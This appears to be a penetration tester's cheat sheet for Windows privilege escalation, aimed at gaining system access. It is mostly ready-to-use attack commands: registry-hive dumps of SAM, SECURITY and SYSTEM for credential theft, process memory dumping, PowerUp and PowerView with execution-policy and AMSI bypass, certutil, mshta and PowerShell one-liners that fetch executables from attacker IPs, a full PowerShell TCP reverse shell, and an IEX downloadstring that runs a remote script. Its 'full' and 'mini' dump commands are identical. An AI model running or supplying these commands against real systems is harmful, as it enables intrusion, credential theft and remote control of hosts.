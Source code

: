 Windows Privilege Escalation tools to help me get system access.

GREAT Privesc
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation
https://github.com/frizb/Windows-Privilege-Escalation

Gread Windows Privilege Escalation Walk-through:
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

Windows-Privesc-Check

Usage:
windows-privesc-check2.exe --audit -a -o wpc-report

More information Regarding Windows-Privesc-Check please refer to: https://github.com/pentestmonkey/windows-privesc-check/blob/master/docs/QuickStartUsage.md

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

Check current priv
whoami /priv

Check hotfixes
wmic qfe get Caption,Description,HotFixID,InstalledOn

Procdump.exe
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump

Usage:
Full Dump
& 'C:\users\accountname\procdump64.exe' -accepteula -ma PIDorPROCESS dumpname.dmp

Mini Dump
& 'C:\users\accountname\procdump64.exe' -accepteula -ma PIDorPROCESS dumpname.dmp

Enumerate Windows System Creds without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

[Powerup.ps1 Usage]
Manual Powershell Priv esc powerup.ps1
powershell -nop -exec bypass
Import-Module .\powerup.ps1
Invoke-AllChecks

[PowerView.ps1 Usage for Active Directory Objects]
powershell -nop -exec bypass
Import-Module .\PowerView.ps1
Get-AdObject
If you receive any errors it's possible AMSI is preventing execution. Look into AMSIbypass. EvilwinRM i use Bypass 4MSI

Download file
[Cert Util]
certutil.exe -urlcache -split -f http[:]//10.10.10.10/exploit.exe

[mshta]
mshta http[:]//10.10.10.10/badthings.exe

[Powershell]
powershell IWR -Uri http[:]//myip/filename.exe -OutFile filename.exe
powershell "(new-object System.Net.WebClient).Downloadfile('http[:]//10.10.14.15:8000/revshell.exe', 'revshell.exe')"

```
[Upgrading to powershell - Replace the placeholders with your local IP and PORT]
$client​ = New-Object System.Net.Sockets.TCPClient(​ "<IPADDRESS>"​ ,<PORT>);​ $stream​ =
$client​ .GetStream();[byte[]]​ $bytes​ = 0..65535|%{0};​ while​ ((​ $i​ = ​ $stream​ .Read(​ $bytes​ ,
0, ​ $bytes​ .Length)) -ne 0){;​ $data​ = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString(​ $bytes​ ,0, ​ $i​ );​ $sendback​ = (iex ​ $data​ 2>&1 |
Out-String );​ $sendback2​ = ​ $sendback​ + ​ "PS "​ + (​ pwd​ ).Path + ​ "> "​ ; ​ $sendbyte​ =
([text.encoding]::ASCII).GetBytes(​ $sendback2​ );​ $stream​ .Write(​ $sendbyte​ ,0,​ $sendbyte​ .L
ength);​ $stream​ .Flush()};​ $client​ .Close()
```

```
START /B ​ ""​ powershell -c IEX (​ New-Object
Net.Webclient).downloadstring(​ 'http[:]//example/shell.ps1'​ )
```

